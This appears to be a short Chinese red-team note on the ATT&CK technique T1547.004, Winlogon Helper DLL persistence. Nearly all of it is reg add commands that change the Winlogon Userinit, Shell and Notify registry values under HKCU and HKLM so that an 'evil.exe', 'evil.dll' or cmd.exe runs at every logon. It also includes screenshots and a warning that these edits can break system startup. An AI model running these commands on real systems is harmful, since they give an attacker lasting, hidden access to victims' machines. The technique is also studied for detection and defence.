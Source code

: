 # T1547.004 (modify Winlogon Helper DLL)

reg add "HKCU\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon" /v "userinit" /t REG\_SZ /d "C:\\Users\\axingg\\desktop\\evil.exe,"  
HKLM 以及 HKCU 的 Userinit 值以及 shell 的值不建议修改，会导致系统启动异常  
[![](assets/1706145586-1d2afd0af4fcf5f32d5f7b394f74c3f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124112910-bcdfda7a-ba68-1.png)  
reg add "HKCU\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon" /v "shell" /t REG\_SZ /d "C:\\Windows\\system32\\cmd.exe,"  
reg add "HKLM\\SOFTWARE\\wow6432node\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon" /v "userinit" /t REG\_SZ /d "C:\\Users\\axingg\\desktop\\evil.exe,"  
[![](assets/1706145586-40b472dd57d35030762a3b1e0321f8c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124113202-2378b248-ba69-1.png)  
reg add "HKCU\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Notify" (新增 notify)  
reg add "HKCU\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Notify" /v "login" /t REG\_SZ /d "C:\\Users\\axingg\\desktop\\evil.dll"  